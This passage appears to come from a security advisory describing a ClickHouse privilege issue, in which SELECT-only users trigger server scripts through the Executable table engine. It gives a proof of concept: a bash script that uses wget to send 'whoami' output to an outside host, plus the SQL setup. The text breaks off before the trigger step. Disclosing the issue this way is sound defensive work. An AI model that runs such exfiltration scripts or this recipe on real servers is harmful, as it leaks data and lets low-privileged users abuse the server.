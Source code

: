 Each `SELECT` query against this table executes the referenced script on the server.

---

## Proof of Concept

#### 1. **Prepare Bash Script For Abuse**

As a privileged user, create a bash script in `/var/lib/clickhouse/user_scripts/` that will later be abused by a low privileged user.

##### Script Name: `leak.sh`
```bash
#!/bin/bash
wget -q http://example.com?data=$(whoami)
```
> Note: This script will leak the `whoami` result to an external host when executed.

---

#### 2. **Create Executable Table**

Create the following table in the database as a privileged user.  This table will later be abused by the low privileged user.

```sql
CREATE TABLE rce_test (
    output String
) ENGINE = Executable('/var/lib/clickhouse/user_scripts/leak.sh', 'TSV');
```

---

#### 3. **Create Low-Privileged User**

```sql
CREATE USER lowpriv IDENTIFIED BY 'p@ssw0rd';
GRANT SELECT ON *.* TO lowpriv;
```

#### 4. Verify Low Privilege User Permissions:

```sql
SHOW GRANTS FOR lowpriv;
```

Expected output:

```text
GRANT SELECT ON *.* TO lowpriv
```
![image](https://github.com/user-attachments/assets/a69ea771-8f46-4723-aad3-b0e9f5888ae7)

---

#### 4. **Trigger Execution as Low-Privileged User**
